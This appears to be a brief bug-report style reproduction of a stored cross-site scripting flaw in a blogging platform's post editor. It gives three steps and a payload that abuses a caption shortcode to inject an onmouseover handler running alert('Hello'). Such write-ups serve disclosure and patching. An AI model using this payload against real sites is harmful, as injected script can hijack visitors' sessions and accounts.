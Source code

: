 # Steps
**Step 1:**
Make a new Post

**Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS


# Demo
![](Demo.gif)
